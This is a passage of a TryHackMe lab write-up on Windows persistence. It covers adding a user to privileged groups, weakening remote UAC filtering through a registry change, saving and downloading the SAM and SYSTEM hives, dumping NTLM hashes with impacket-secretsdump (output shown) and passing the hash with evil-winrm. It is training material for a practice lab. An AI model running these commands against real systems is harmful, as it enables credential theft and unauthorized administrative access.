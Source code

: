 And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4899f69e89088c4cb4bbdaa3cb4bbdaa3
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Using the Administrator console gained through the thmuser1, execute `C:\flags\flag1.exe` to retrieve your flag.


#### Practical
---

Let's use these commands on the windows machine:

```
net localgroup "Backup Operators" thmuser1 /add
net localgroup "Remote Management Users" thmuser1 /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1 
```

![](../images/Pasted%20image%2020250515151535.png)

We are now able to get access as `thmuser1`:

```
evil-winrm -i IP -u thmuser1 -p Password321
```

Inside of this shell, we need to do:

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

Once we've saved all of that, we can use `impacket-secretsdump`:

```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
```
